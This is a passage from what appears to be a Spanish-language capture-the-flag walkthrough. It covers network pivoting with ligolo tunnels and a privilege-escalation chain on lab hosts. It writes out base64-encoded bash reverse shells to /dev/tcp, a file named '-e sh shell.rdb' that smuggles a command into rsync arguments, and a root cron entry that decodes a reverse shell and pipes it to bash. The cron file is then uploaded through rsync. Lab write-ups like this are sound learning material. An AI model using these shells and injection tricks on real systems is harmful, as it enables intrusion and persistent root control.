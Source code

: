 ```
    link/ether 02:42:ac:14:00:03 brd ff:ff:ff:ff:ff:ff
    inet 172.20.0.3/16 brd 172.20.255.255 scope global eth0
       valid_lft forever preferred_lft forever
19: eth1@if20: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
    link/ether 02:42:ac:13:00:04 brd ff:ff:ff:ff:ff:ff
    inet 172.19.0.4/16 brd 172.19.255.255 scope global eth1
       valid_lft forever preferred_lft forever
```
En este caso seria `172.20.0.0/24` creamos una interface para el doble pivoting en nuestra pc
```
➜  hack sudo ip tuntap add user $USER mode tun ligolos
➜  hack sudo ip link set ligolos up
➜  hack sudo ip route add 172.20.0.0/24 dev ligolos
```

```
[Agent : root@nodered] » listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp # nuestra pc

root@www:/tmp# ./agent -connect 172.19.0.3:11601 -ignore-cert
./agent -connect 172.19.0.3:11601 -ignore-cert
time="2025-01-26T04:49:15Z" level=warning msg="warning, certificate validation disabled"
time="2025-01-26T04:49:15Z" level=info msg="Connection established" addr="172.19.0.3:11601"

[Agent : root@www] » start --tun ligolos # nuestra pc

[Agent : root@www] » listener_add --addr 0.0.0.0:4545 --to 127.0.0.1:4545 # para recibir alguna shell
```
Vamos a volver a escalar para tener otra sesión con otro puerto
```
➜  hack base64 shell -w 0
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTkuMC4zLzY2NjYgMD4mMScK#                                                   ➜  hack echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTkuMC4zLzY2NjYgMD4mMScK|base64 -d > shell.rdb
➜  hack cat shell.rdb
bash -c 'bash -i >& /dev/tcp/172.19.0.3/6666 0>&1'

www-data@www:/var/www/html/f187a0ec71ce99642e4f0afbd441a68b$ touch -- '-e sh shell.rdb'

www-data@www:/var/www/html/f187a0ec71ce99642e4f0afbd441a68b$ echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTkuMC4zLzc3NzcgMD4mMScK|base64 -d > shell.rdb

www-data@www:/var/www/html/f187a0ec71ce99642e4f0afbd441a68b$ dir
-e\ sh\ shell.rdb  shell.rdb
```
Creamos el archivo que subiremos al cron del rsync
```
➜  hack cat shell
bash -c 'bash -i >& /dev/tcp/l/4545 0>&1'

root@www:/tmp# echo '* * * * * root echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMjAuMC4zLzQ1NDUgMD4mMScK | base64 -d | bash' > clean
root@www:/tmp# cat clean
* * * * * root echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMjAuMC4zLzQ1NDUgMD4mMScK | base64 -d | bash
```
Nos ponemos en escucha
```
➜  hack nc -nlvp 4545
listening on [any] 4545 ...
```
Subimos el archivo y esperamos
```
root@www:/tmp# rsync -avp clean rsync://backup:873/src/etc/cron.d/clean
rsync -avp clean rsync://backup:873/src/etc/cron.d/clean
sending incremental file list
```